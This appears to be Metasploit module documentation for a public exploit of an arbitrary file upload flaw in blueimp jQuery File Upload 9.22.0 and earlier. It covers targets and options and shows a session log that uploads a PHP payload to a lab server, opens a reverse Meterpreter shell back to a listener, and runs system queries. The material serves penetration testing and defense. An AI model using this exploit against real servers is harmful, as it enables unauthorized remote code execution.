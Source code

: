 ## Intro

This module exploits an arbitrary file upload in the sample PHP upload
handler for blueimp's jQuery File Upload widget in versions <= 9.22.0.

Due to a default configuration in Apache 2.3.9+, the widget's `.htaccess`
file may be disabled, enabling exploitation of this vulnerability.

This vulnerability has been exploited in the wild since at least 2015
and was publicly disclosed to the vendor in 2018. It has been present
since the `.htaccess` change in Apache 2.3.9.

This module provides a generic exploit against the jQuery widget.

## Setup

<https://github.com/blueimp/jQuery-File-Upload/wiki/Setup#using-jquery-file-upload-ui-version-on-php-websites>

## Targets

```
Id  Name
--  ----
0   PHP Dropper
1   Linux Dropper
```

## Options

**TARGETURI**

Set this to the base path of jQuery File Upload. `/jQuery-File-Upload`
and those including a version are common. `/upload` may be another.
You may want to use another tool like `dirb` to handle enumeration.

## Usage

```
msf5 exploit(unix/webapp/jquery_file_upload) > check

[*] Checking /jQuery-File-Upload/package.json
[+] Found Apache 2.4.18 (AllowOverride None)
[+] Found unpatched jQuery File Upload 9.22.0
[*] 172.28.128.3:80 The target appears to be vulnerable.
msf5 exploit(unix/webapp/jquery_file_upload) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Checking /jQuery-File-Upload/package.json
[+] Found Apache 2.4.18 (AllowOverride None)
[+] Found unpatched jQuery File Upload 9.22.0
[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] Uploading payload
[+] Payload uploaded: http://172.28.128.3/jQuery-File-Upload/server/php/files/FJx2tZWpurPHKIWaYX7sbGTraXTNlRaBB.php
[*] Executing payload
[*] Sending stage (37775 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:54414) at 2018-10-23 07:13:22 -0500
[*] Deleting payload

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu-xenial
OS          : Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```

